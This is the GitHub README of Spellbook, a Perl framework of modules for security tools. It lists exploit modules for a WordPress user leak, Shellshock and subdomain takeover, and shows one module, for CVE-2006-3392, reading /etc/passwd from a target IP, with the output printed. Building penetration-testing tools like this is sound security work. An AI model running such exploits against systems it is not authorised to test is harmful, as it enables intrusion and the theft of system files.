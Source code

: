 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A micro-framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.3.0-blue.svg">
    </a>
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](https://en.wikipedia.org/wiki/Flow-based_programming)

The main focus of this “micro-framework” is turn in reality the rapid development of security tools using reusable patterns of FBP. 

"Third clark law: any sufficiently advanced technology is indistinguishable from magic" - that's why this project is called spellbook.

---

### Download and install

```bash
# Download
$ git clone https://github.com/htrgouvea/spellbook && cd spellbook

# Install libs and dependencies
$ cpanm --installdeps .
```

---

### How to use

```
Spellbook v0.3.0
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-h, --help       To see help menu of a module
```

### Example

```
# Searching for exploits 
$ perl spellbook.pl --search exploit

Module: Exploit::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Exploit::Shellshock
Description: Exploit for shellshock vuln
=================================================

Module: Exploit::Subdomain_Takeover_Check
Description: A checker for the possibility of subdomain takeover attack
=================================================
[...]
```

```
# Using an exploit
$ perl spellbook.pl -m Exploit::CVE_2006_3392 --help

Exploit::CVE_2006_3392
=======================
-h, --help     See this menu
-t, --target   Define a target
-f, --file     Define a file to read
```

```
$ perl spellbook.pl -m Exploit::CVE_2006_3392 -t http://172.30.0.15:10000/ -f /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
[...]
```

If you are interested in developing new modules, a good start point is to read the [development guide](/wiki/Developer-Guide).

---

### Docker container

```
$ docker build -t spellbook .
$ docker run -ti --rm spellbook --search exploits
```

---

### Contribution

- Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕)

- If you are interested in providing financial support to this project, please visit: [heitorgouvea.me/donate](https://heitorgouvea.me/donate)

---

### License

- This work is licensed under [MIT License.](/LICENSE.md)